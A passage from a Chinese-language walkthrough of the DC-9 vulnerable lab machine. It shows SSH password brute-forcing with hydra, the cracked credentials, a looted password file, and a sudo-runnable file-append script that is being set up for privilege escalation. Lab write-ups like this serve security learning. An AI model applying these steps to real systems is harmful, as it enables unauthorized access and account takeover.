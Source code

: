 用什么来连呢，还记得前面泄露的那张表吗

我们可以用hydra跑一跑

将用户名和密码分别放在users.txt和passwd.txt里

跑出来

```shell
[22][ssh] host: 192.168.31.222   login: chandlerb   password: UrAG0D!                           
[22][ssh] host: 192.168.31.222   login: joeyt   password: Passw0rd                               
[22][ssh] host: 192.168.31.222   login: janitor   password: Ilovepeepee
```

然后就能连上ssh

joeyt和chandlerb的账号上都没有找到有意思的东西

在janitor的账户上找到了更多的密码

```
janitor@dc-9:~/.secrets-for-putin$ cat passwords-found-on-post-it-notes.txt 
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

接着放进hydra里跑一跑

多了一条

```shell
[22][ssh] host: 192.168.31.222   login: fredf   password: B4-Tru3-001
```

常规sudo -l一下发现fredf可以执行一个程序

试一下执行

```
fredf@dc-9:~$ /opt/devstuff/dist/test/test
Usage: python test.py read append
```

还是先看一下源码吧

根据经验，源码应该放在/dist的父目录里

```python
fredf@dc-9:/opt/devstuff$ cat test.py
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```
